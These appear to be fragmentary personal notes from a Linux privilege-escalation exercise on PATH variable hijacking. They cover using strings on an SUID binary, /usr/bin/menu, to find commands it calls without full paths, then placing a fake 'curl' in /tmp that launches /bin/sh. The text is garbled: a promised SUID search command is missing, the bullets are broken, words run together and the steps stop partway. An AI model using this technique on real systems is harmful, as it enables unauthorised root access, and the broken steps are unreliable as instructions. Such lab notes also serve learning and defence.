

To search the a system for SUID files run the following:
-------------------------------------------------------------------------------------------------
PathVariablemanipulation
Running strings command on the binary /usr/bin/menu- - resulted in
- - curl -I localhost || uname -r || ifconfig
- this means the binary is running without a full path, as it uses those commands to finish the path (otherwise it would use
/usr/bin/curlor /usr/bin/uname
- )
- Creating environmental variable
- > cd /tmp *enter tmp directory
- > echo /bin/sh > curl * create shell call (/bin/sh) and put it into the path curl
Setting
777 permissions to a file or directory
means that it will be readable, writable and executable by all users